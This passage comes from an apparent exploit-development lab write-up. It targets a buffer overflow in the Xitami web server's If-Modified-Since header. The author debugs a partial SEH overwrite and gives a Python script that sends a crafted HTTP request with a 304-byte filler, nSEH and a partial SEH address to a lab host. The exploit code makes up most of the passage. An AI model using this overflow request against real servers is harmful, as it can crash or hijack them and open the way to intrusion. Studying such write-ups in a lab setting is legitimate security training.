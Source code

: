 ![](/assets/images/CTP/xitamipartial.JPG)

So we are almost there. We get a value of `4444f584` and we need `0044f584`. I couldn't immediately tell where that extra `44` byte came from but when I looked at the stack, it became apparent that it's from our `D` buffer! 

![](/assets/images/CTP/dbuffer.JPG)

Let's delete our `D` buffer from our payload and see what happens.
```python
import socket
import sys

host = "192.168.1.201"
port = 80

seh = "\x84\xf5\x44"
nseh = "CCCC"

#PO @ 304
crash = "A" * 304
crash += nseh
crash += seh


req = "GET / HTTP/1.1\r\n"
req += "Host: 192.168.1.201\r\n"
req += "User-Agent: Mozilla/5.0 (X11; Linux i686; rv:60.0) Gecko/20100101 Firefox/60.0\r\n"
req += "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8\r\n"
req += "Accept-Language: en-US,en;q=0.5\r\n"
req += "Accept-Encoding: gzip, deflate\r\n"
req += "Connection: close\r\n"
req += "Upgrade-Insecure-Requests: 1\r\n"
req += "If-Modified-Since: Wed, " + crash + "\r\n\r\n"

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((host, port))
s.send(req)
s.close()
```